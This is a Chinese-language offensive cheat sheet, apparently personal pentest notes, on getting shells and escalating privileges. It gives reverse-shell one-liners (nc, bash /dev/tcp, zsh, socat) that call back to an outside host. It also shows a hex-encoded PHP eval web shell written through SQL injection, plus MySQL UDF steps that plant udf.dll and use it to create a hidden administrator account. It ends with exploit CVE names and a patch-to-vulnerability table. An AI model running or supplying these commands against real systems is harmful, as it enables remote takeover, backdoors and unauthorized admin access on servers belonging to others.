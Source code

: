 ## 反弹shell
后门：https://github.com/LukaSikic/HaCoder.py  
```sh
nc -e /bin/bash 192.168.1.2 8080
bash -c 'bash -i >/dev/tcp/192.168.1.2/8080 0>&1'
zsh -c 'zmodload zsh/net/tcp && ztcp 192.168.1.2 8080 && zsh >&$REPLY 2>&$REPLY 0>&$REPLY'
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.1.2:8080  
```
## mssql提权
TODO
## mysql 提权
## UDF提权
虽然MySQL的内置函数虽然丰富，但毕竟不能满足所有人的需要，有时候我们需要对表中的数据进行一些处理而内置函数不能满足需要的时候，就需要对 MySQL 进行一些扩展，这就是可以自行添加的MySQL 的 UDF。

MYSQL5.1及之后的几个版本又多了一个限制：创建函数时所用的DLL只能放在mysql的plugin目录里面，而且这个plugin目录默认是不存在的，可能就是为了防止黑客通过导出文件的方式将DLL来写到这个文件夹，如果导出文件（`into dumpfile`）的目标目录不存在是会报错的。

**所以在导出UDF提权之前 ，先确定一下MYSQL的版本是有必要的**(`select version();`)

## 写入一句话木马

```sql
union select 
0x3c3f70687020406576616c28245f504f53545b2770617373275d293b3f3e,2,3 into 
dumpfile 'c:/www/small.php'

# 以上语句连续执行两次，如果出现以下错误，即说明文件写入成功：
# Invalid Query：File 'c:/www/small.php' already exists
# 第二次写入提示文件已存在则说明文件写入成功
```
## 查看MYsql安装根目录
```sql
select @@basedir;
```
根据 我们前面讲述的MySQL5.1版本及其之后版本，我们自定义函数需要用到的shell导出的目录应该是： 
`C:/Program Files/phpStudy/MySQL/lib/plugin/`

其实也可以通过以下语句获得插件目录(*并不一定真实存在*):
`show variables like '%plugin%';`

## 创建/lib/plugin目录
```sql
select 'test' into dumpfile 'C:/Program Files/phpStudy/MySQL/lib::INDEX_ALLOCATION';   
# 利用NTFS ADS创建lib目录

select 'test' into dumpfile 'C:/Program Files/phpStudy/MySQL/lib/plugin::INDEX_ALLOCATION';
# 利用NTFS ADS创建plugin目录
```

**利用NTFS ADS创建目录成功率很小，这个命令执行返回一直为空，二次执行不提示目录已存在，即可判断目录创建失败。如上图即目录创建失败。**

将udf.dll 导出到plugin目录
```sql
select load_file('C:/www/udf.dll') into dumpfile 'C:/Program Files/phpStudy/MySQL/lib/plugin/udf.dll';
```

通过sql语句通过udf.dll 创建shell函数

```sql
create function shell returns string soname 'udf.dll';
# 假设此时udf.dll被上传到了c:\windows\system32目录

create function shell returns string soname 'C:udf.dll';
# 假设此时udf.dll被上传到了C盘根目录目录

create function shell returns string soname 'udf.dll';
# 假设此时udf.dll被上传到了任意的环境变量目录，如C:\php\
```

### 用法
`shell`函数用于执行系统命令，用法如下
```sql
# 我们尝试在服务器添加一个用户名为`matrix`密码为`matrix`的账户:  

select shell('cmd','net user matrix matrix /add');

# 接着尝试把`matrix`账户添加到`administrators`管理组：  
select shell('cmd','net localgroup administrators matrix /add');  
# 然后查看详细的账户信息，确认是否已经成功添加上账户和账户是否已经被成功添加到管理员组。如下操作：  
select shell('cmd','net user matrix');
```
---

提权完毕之后我们可以通过以下语句删除相关函数以防被他人利用：
```sql
drop function shell;
# 删除函数
delete from mysql.func where name='shell';
# 删除函数
```
## linux 
- CVE-2016-5195 脏牛漏洞
- CVE-2016-8655：Linux内核竞争条件漏洞
- CVE-2017-1000367 sudo本地提权漏洞:selinux必须开

## win
## 系统密码破解
1. getpass.exe 
2. minikz
## 补丁对应漏洞
```
KB2360937 →MS10-084
KB2478960 →MS11-014
KB2507938→ MS11-056
KB2566454→ MS11-062
KB2646524 →MS12-003
KB2645640→ MS12-009
KB2641653→ MS12-018
KB944653 →MS07-067
KB952004 →MS09-012
KB971657 →MS09-041
KB2620712→ MS11-097
KB2393802→ MS11-011
kb942831 →MS08-005
KB2503665 →MS11-046
KB2592799→ MS11-080  
```